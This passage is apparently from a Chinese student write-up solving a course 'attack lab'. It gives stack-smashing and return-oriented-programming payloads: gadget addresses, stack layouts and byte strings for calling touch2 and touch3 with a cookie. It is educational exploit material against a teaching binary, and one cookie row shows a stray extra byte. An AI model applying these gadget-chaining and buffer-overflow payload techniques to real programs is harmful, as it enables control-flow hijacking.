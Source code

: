 ```c
}
```
也就是说要把cookie的地址作为指针参数放在```%rdi```里面，看汇编找到```touch3()```的地址```0000000000401820 <touch3>```，分析栈的结构如下：
栈 |
--- |
cookie |
（原来返回值所在的位置）存放下面mov操作的地址 |
ret |
push $0x401820 |
mov cookie的地址, %rdi |
找到机器编码按顺序输入，不够用占位符即可。
==注意==：cookie要转换成ASCII```31 38 63 35 35 63 34 36```

# Part II: Return-Oriented Programming
这种程序每次运行都会随机生成栈的地址，而且还会有哨兵检查越界，所以攻击难度增大。但是我们可以利用源文件中的一些编码片段拼凑成我们需要的指令，进行攻击，要求只能使用在```start_farm```和```end_farm```之间的片段。

## Level 2
跟上面level2要求一样，只是不能自己写代码，要用现成的，分析汇编中有的代码可以考虑用以下栈的结构：
栈 | 数据
--- | ---
touch2的地址 | 45 17 40 00 00 00 00 00
48 89 c7 c3 mov %rax, %rdi的首地址 | de 18 40 00 00 00 00 00
cookie | 46 5c c5 18 36 00 00 00 00
58 c3 pop %rax的首地址（原返回值的地方） | e7 18 40 00 00 00 00 00
占位符3 | 30 30 30 30 30 30 30 30
占位符2 | 30 30 30 30 30 30 30 30
占位符1 | 30 30 30 30 30 30 30 30
输入的时候从下往上输入
![figure3](https://img-blog.csdnimg.cn/20181121165030254.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzNjkwMDQz,size_16,color_FFFFFF,t_70)

## Level 3
跟上面level3要求一样，只是由于不能自己写代码，所以就要用已有的代码经过计算得到一个地址，然后把cookie放在对应的地址里面，其中的计算比较复杂，分析汇编之后找到以下解决方案：
栈 | 数据
--- | ---
cookie | 31 38 63 35 35 63 34 36
touch3的地址| 20 18 40 00 00 00 00 00
48 89 c7 c3 mov %rax, %rdi的首地址 | de 18 40 00 00 00 00 00
48 8d 04 37 lea(%rdi,%rsi,1), %rax的首地址 | f0 18 40 00 00 00 00 00
89 d6 mov %edx, %esi的首地址（后两位的test没有用） | 2c 19 40 00 00 00 00 00
89 ca mov %ecx, %edx的首地址（0x90是nop，没有用） | 9d 19 40 00 00 00 00 00
89 c1 mov %eax, %ecx的首地址 | 43 19 40 00 00 00 00 00
偏移量 0x48| 48 00 00 00 00 00 00 00
58 c3 pop %rax的首地址| e7 18 40 00 00 00 00 00
48 89 c7 c3 mov %rax, %rdi的首地址| de 18 40 00 00 00 00 00
48 89 e0 c3 mov %rsp, %rax的首地址| 33 19 40 00 00 00 00 00
占位符3 | 30 30 30 30 30 30 30 30
占位符2 | 30 30 30 30 30 30 30 30
占位符1 | 30 30 30 30 30 30 30 30
输入的时候从下往上输入
